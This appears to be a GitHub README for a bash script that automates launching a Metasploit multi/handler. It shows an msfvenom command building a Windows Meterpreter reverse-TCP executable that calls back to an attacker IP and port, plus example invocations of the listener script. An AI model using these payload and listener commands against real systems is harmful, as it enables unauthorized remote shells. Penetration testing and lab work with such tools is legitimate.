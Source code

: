 # MultiHandler
Too lazy to start meterpreter, search for the multi handler, use it, set the payload, set the lhost, set the lport and then run it? .. takes a while, lots of things to type. No More!   

Copy and paste your payload, IP and Port from the msfvenom command and execute it.

## Example

Let's say you ran this msfvenom command to generate an executable binary for a reverse shell:  

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.41 LPORT=1338 -f exe -o lazy.exe
```
![image](https://github.com/LazyTitan33/MultiHandler/assets/80063008/0dd82f56-f509-4352-ad9f-a710e7e042b5)

You would then normally need to:
1. start Meterpreter
2. search for the multi handler
3. use it
4. set the payload
5. set the lhost
6. set the lport
7. execute it.

Those are a lot of steps and typing or copying and pasting. How about you run this script with the above highlighted part of the msfvenom command copied and pasted?

```bash
./MultiHandler.sh windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.41 LPORT=1337
```
![image](https://github.com/LazyTitan33/MultiHandler/assets/80063008/2902c146-4fb2-4e62-893a-a5f7e70e8829)

You can also simply type (if you are into that sort of thing) the payload, IP and Port manually and it will work just the same.

```bash
./MultiHandler.sh windows/x64/meterpreter/reverse_tcp 10.10.16.41 1337
```

![image](https://github.com/LazyTitan33/MultiHandler/assets/80063008/38f89ab5-708b-4ed0-8565-01697b509238)

This quick bash script generates and runs a [Meterpreter Resource Script](https://docs.rapid7.com/metasploit/resource-scripts/) that you can keep using or again, very simply generate another one for a different port if you want.
